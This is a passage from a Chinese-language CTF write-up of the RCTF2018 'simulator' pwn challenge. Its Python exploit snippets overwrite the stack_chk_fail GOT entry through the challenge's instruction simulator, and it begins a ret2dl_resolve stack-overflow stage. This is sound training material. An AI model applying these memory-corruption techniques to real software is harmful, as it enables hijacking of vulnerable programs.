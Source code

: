 ![漏洞点3](https://raw.githubusercontent.com/fade-vivida/CTF/master/RCTF2018/Pwn/simulator/picture/4.PNG)
## 2.漏洞利用 ##
### 2.1 覆写stack\_chk\_fail的GOT表为RET地址 ###
#### Method 1: ####
使用sub或and指令
  
	# Method 1： use add/sub
	change_2_text()
	offset = ((stack_chk_fail_got - register_val) & 0xffffffff )/8-0x20
	print hex(offset) 
	code = 'add '+str(offset)+','+str(leave_ret)+','+str(0)
	input_code(code)
#### Method 2: ####
使用lw和sw指令，在这主要是用sw指令进行覆写。使用lw指令进行信息泄露的原理与其类似。

	# Method 2: use lw/sw
	change_2_text()
	code = 'li $t0,' + str(leave_ret)
	input_code(code)
	offset = (stack_chk_fail_got - mapp0 - 4)/8 + 0xE0000000
	print hex(offset)
	code = 'li $t1,' + str(offset)
	input_code(code)
	code = 'sw $t0,$t1'
	input_code(code)
	sl('END')
一个需要注意的点就是在计算offset时，由于必须保证`t1<=0x400`，且mapp0的值是小于stack\_chk\_fail\_got的。
因此必须是t1的值必须为一个负值，且满足等式要求使其高位被舍去。
#### 注意点： ####
使用这两种方法实现任意地址读写时，有一个限制条件。即：这里的任意地址其实不是严格意义上的任意地址，该地址必须以0x4或者0xC结尾，即无法对0x0或者0x8结尾的地址内容进行读写。
### 2.2 栈溢出利用 ###
#### Method 1: dl\_2\_resolve ####
直接使用roputils进行dl\_resolve的构造，唯一需要注意的点就是程序中没有read函数，可使用fgets函数进行代替。但fgets函数的第三个参数为stdin，需要先进行leak。
